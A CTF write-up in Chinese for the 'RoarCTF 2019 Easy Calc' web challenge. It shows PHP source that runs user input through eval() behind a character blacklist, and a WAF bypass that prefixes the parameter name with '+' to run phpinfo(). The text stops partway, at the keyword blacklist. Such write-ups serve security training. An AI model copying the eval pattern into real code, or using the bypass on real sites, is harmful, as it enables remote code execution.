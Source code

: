 # [RoarCTF 2019]Easy Calc

打开是一个输入计算表达式的表单：

![image-20210927153425767](https://i.loli.net/2021/09/27/kc84qXnUFtdflMY.png)

点击计算会把数据提交到：`/calc.php?num=1+1`

直接访问 */calc.php* 得到源代码：

```php
<?php
error_reporting(0);
if (!isset($_GET['num'])) {
    show_source(__FILE__);
} else {
    $str = $_GET['num'];
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $str)) {
            die("what are you want to do?");
        }
    }
    eval('echo '.$str.';');
}
```



访问 `/calc.php?num=phpinfo()` 会被WAF拦截，可以在参数前添加**+**号绕过：

`/calc.php?+num=phpinfo() `

![image-20210927165428588](https://i.loli.net/2021/09/27/hMdNI18aym7j36Z.png)



**clac.php** 中也过滤了许多关键词：

```php
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
```











